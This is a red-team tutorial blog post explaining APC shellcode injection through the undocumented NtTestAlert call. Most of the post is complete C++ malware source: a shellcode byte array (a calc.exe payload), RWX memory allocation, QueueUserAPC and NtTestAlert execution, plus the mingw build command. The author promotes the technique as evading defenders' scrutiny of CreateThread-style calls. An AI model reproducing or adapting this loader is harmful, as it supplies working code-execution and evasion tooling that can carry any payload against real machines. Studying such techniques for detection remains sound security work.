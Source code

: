 ```yaml
---
title:  "APC injection via NtTestAlert. Simple C++ malware."
date:   2021-11-20 10:00:00 +0600
header:
  teaser: "/assets/images/22/2021-11-21_13-18.png"
categories: 
  - tutorial
tags:
  - APC injection
  - windows
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![APC injection](/assets/images/22/2021-11-21_13-18.png){:class="img-responsive"}    

This post is a Proof of Concept and is for educational purposes only.   
Author takes no responsibility of any damage you cause.      

In [last](/tutorial/2021/11/11/malware-injection-3.html) post I wrote about "Early Bird" APC injection technique.     

Today I will discuss about another APC injection technique. Its meaning is that we are using an undocumented function `NtTestAlert`. So let's go to show how to execute shellcode within a local process by leveraging a Win32 API `QueueUserAPC` and an officially undocumented Native API `NtTestAlert`.    

### NtTestAlert

**NtTestAlert** is a system call that’s related to the alerts mechanism of Windows. This system call can cause execution of any pending APCs the thread has. Before a thread starts executing it's Win32 start address it calls `NtTestAlert` to execute any pending APCs.    

### Example

Let's take a look at our C++ source code of our malware:    
```cpp
/*
hack.cpp
APC code injection via undocumented NtTestAlert
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/20/malware-injection-4.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main(int argc, char* argv[]) {
  SIZE_T my_payload_len = sizeof(my_payload);
  HMODULE hNtdll = GetModuleHandleA("ntdll");
  myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(hNtdll, "NtTestAlert"));

  LPVOID my_payload_mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(GetCurrentProcess(), my_payload_mem, my_payload, my_payload_len, NULL);

  PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
  testAlert();

  return 0;
}
```

For simplicity, we use 64-bit `calc.exe` as the payload.    

The flow of this technique is simple. Firstly, we allocate memory in the local process for our payload:    

![APC injection 1](/assets/images/22/2021-11-21_13-49.png){:class="img-responsive"}    

Then write our payload to newly allocated memory:    

![APC injection 2](/assets/images/22/2021-11-21_13-50.png){:class="img-responsive"}    

Then queue an APC to the current thread:    

![APC injection 3](/assets/images/22/2021-11-21_13-52.png){:class="img-responsive"}    

Finally, call `NtTestAlert`:    

![APC injection 4](/assets/images/22/2021-11-21_13-53.png){:class="img-responsive"}    

Let's go to compile our code:   
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![APC injection 5](/assets/images/22/2021-11-21_13-58.png){:class="img-responsive"}    

And run on victim machine (Windows 7 x64 in my case):   

![APC injection 6](/assets/images/22/2021-11-21_14-03.png){:class="img-responsive"}    

And If open our `hack.exe` malware in `Ghidra`:

![APC injection 7](/assets/images/22/2021-11-21_15-12.png){:class="img-responsive"}    

the `NtTestAlert` function call is not suspicious. So the advantage of this technique is that it does not rely on `CreateThread` or `CreateRemoteThread` API calls which are more popular and suspicious and which is more closely investigated by the blue teamers.   

[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[GetModuleHandleA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)    
[APC technique MITRE ATT&CK](https://attack.mitre.org/techniques/T1055/004/)    
[NTAPI Undocumented Functions - NtTestAlert](http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtTestAlert.html)    
[Ghidra - NSA](https://github.com/NationalSecurityAgency/ghidra/)    
[Source Code in Github](https://github.com/cocomelonc/2021-11-20-injection-4)    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*

